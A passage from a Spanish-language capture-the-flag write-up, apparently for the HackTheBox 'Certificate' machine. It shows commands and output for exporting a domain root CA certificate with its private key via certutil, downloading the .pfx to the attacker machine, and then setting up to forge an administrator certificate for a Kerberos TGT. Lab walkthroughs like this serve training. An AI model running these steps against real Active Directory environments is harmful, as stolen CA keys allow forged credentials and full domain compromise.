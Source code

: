 ```powershell
certutil -exportpfx 75B2F4BBF31F108945147B466131BDCA .\admin.pfx
```

Info:

```
MY "Personal"
================ Certificate 3 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file .\admin.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```

Veremos que ha funcionado, por lo que vamos a descargarnos dicho archivo a nuestra maquina atacante.

```powershell
download admin.pfx
```

Info:

```
Info: Downloading C:\Users\Ryan.K\Downloads\admin.pfx to admin.pfx
                                        
Info: Download successful!
```

Ahora podremos obtener un `TGT` gracias a este certificado privilegiado del usuario `administrador`.

Pero antes tendremos que saber la ruta del objeto `admin` del `AD`, gracias a `BloodHound` podremos saber esto mismo, buscando el objeto `Administradtor` y en la parte de informacion veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-18 141821.png" alt=""><figcaption></figcaption></figure>

Ahora vamos a forjar el `.pfx` del `administrador` para posteriormente obtener el `TGT`.
